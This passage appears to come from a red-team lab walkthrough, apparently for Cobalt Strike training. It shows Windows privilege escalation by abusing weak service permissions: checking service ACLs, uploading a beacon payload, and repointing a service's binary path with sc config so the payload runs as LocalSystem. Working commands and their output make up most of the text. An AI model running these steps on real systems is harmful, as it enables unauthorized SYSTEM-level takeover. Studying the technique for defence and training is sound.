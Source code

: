
Run the above script:

```
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name Vuln-Service-2 | select -expandproperty Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

```

We can see that all **Authenticated Users** have **ChangeConfig**, **Start** and **Stop** privileges over this service. We can abuse these weak permissions by changing the binary path of the service - so instead of it running `C:\Program Files\Vuln Services\Service 2.exe`, we can have it run something like `C:\Temp\payload.exe`.

Make sure you add a new listener and select beacon TCP first (I didnt check the bind to localhost checkbox, i am not sure when you would use this).

```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\beacon-tcp-svc.exe
beacon> mv beacon-tcp-svc.exe fake-service.exe

beacon> run sc qc Vuln-Service-2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vuln Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Vuln-Service-2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

beacon> run sc config Vuln-Service-2 binPath= C:\Temp\fake-service.exe
[SC] ChangeServiceConfig SUCCESS

beacon> run sc qc Vuln-Service-2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Temp\fake-service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Vuln-Service-2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

beacon> run sc query Vuln-Service-2

SERVICE_NAME: Vuln-Service-2 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
```